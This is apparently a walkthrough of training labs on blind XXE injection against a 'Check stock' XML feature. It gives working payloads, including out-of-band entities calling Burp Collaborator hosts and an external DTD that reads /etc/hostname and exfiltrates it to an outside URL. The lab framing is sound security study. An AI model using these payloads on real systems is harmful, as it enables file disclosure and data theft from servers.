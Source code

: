 This lab has a "Check stock" feature that parses XML input but does not display the result.
So we will use  burpcollaborator

```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "[http://dwd4kff0i8sagjltnzc0qz4vwm2cq1.burpcollaborator.net](http://dwd4kff0i8sagjltnzc0qz4vwm2cq1.burpcollaborator.net/)"> ]>
```

stockcheck as element
xxe as ENTITY 

payload as

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "[http://dwd4kff0i8sagjltnzc0qz4vwm2cq1.burpcollaborator.net](http://dwd4kff0i8sagjltnzc0qz4vwm2cq1.burpcollaborator.net/)"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

forward the request

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Blind-XXE-with-out-of-band-interaction.png)

Labe Solved

------------

# Lab: Blind XXE with out-of-band interaction via XML parameter entities

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 
so open  Burp Collaborator client then Click Copy to clipboard
make our payload
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "[http://ciyu5iq9djdf7wan1drm6dxjqaw0kp.burpcollaborator.net]"> %xxe; ]>
```


**Note we use % to escap Parameter Entities**

Go back to the Burp Collaborator client window, and click Poll now 

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Blind-XXE-with-out-of-band-interaction-via-XML-parameter-entities.png)


------------

# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

go to exploit server to host our our malicious external file dtd 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % exfil SYSTEM '[http://mukd1rvbfn9dwspq32ozmuo9g0mqaf.burpcollaborator.net/?x=%file;](http://mukd1rvbfn9dwspq32ozmuo9g0mqaf.burpcollaborator.net/?x=%25file;)'>">
%eval;
%exfil;
```
